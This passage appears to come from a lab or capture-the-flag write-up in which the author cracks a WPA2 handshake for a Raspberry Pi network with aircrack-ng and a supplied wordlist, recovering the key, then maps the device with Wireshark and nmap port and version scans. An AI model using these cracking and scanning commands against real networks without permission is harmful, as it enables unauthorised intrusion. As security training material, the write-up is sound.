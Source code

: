 - ran command `aircrack-ng -w words_small.txt -b B8:27:EB:B8:BB:F1 WPA2crack/WPA2crack-01.cap`
  - `aircrack-ng` cracks passwords
  - `-w` specifies wordlist, used `words_small.txt` which was provided to me
  - `-b` specifies BSSID as captured earlier
  - `WPA2crack/WPA2crack-01.cap` was the handshake capture fed into the cracking tool
- returned the following:

```txt
                               Aircrack-ng 1.6 

      [00:00:01] 3261/3311 keys tested (3062.98 k/s) 

      Time left: 0 seconds                                      98.49%

                           KEY FOUND! [ valegorov ]


      Master Key     : 4C 99 CF BF 5B 80 C9 B8 F1 8F 71 4B 43 98 AB B1 
                       78 6A 70 E2 A6 08 B6 99 E7 E8 A7 CF B5 AF DC 03 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : F1 61 45 F2 AD 27 E4 2E 99 88 CF 25 F0 A5 97 57
```

- password: valegorov (tested w/ positive result)

## Scanning

### Wireshark

- Turned on Wireshark Monitoring for 5 minutes on the network to see what I could find
  - saved to `kit5min.pcapng`
- Found 2 devices at `192.168.66.1` and `192.168.66.146`
- packet 41 tells us that the sender (`192.168.66.1`) is the Raspberry Pi device, the other device is my laptop

### Nmap

- Basic scan of pi shows 3 open ports
  - 22, SSH
  - 53, domain
  - 8080, http-proxy
- a more in-depth scan of TCP ports exclusively (`nmap -sT -p- -vv -T5 192.168.66.1`) showed an additional 2 known ports in use
  - 1883, mqtt
  - 4369, epmd
  - Also showed 5 additional unknown ports open
- finally ran `nmap -sT -p- -vv -A 192.168.66.1` to gather OS information, versions, scripts, and traceroute for the aforementioned ports
  - OS: Raspbian
  - Port 22:
    - OpenSSH 7.9p1 Raspbian 10+deb10u2+rpt1 (protocol 2.0)
  - Port 53:
    - domain service
    - dnsmasq 2.0
  - Port 1883:
    - mosquitto version 1.5.7
  - Port 4369:
    - epmd
    - Erlang Port Mapper Daemon
    - LoRaWAN node 41199